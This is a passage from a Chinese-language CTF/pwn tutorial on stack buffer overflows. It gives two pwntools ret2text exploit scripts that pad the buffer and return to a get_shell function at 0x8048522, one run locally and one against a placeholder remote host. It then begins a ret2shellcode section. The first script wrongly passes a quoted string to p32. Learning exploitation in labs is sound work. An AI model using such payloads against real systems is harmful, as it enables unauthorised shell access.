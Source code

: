 这里回到IDA看get\_shell的地址，可以看到起始地址为8048522

```plain
from pwn import *
io = process("./ret2text")
io.recvline()
payload = b'A' * 16 + b'BBBB' + p32('0x8048522')
io.sendline(payload)
io.interactive()
```

打本地成功

```plain
from pwn import *
io = remote("xx.xx.xx.xx",xxxx)
get_shell_addr = 0x8048522
payload = b'A' * 16 + b'BBBB' + p32(get_shell_addr)
io.sendline(payload)
io.interactive()
```

## ret2shellcode

```plain
shellcode是我们自己输入的，一定要存在于缓冲区中(栈、堆、BSS)
(但是堆默认malloc到的没有可执行权限)
```

[![](assets/1701612384-6169d20e7f66cd2ddc3d57ff11d9fcc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629202943-9ff1034c-1678-1.png)

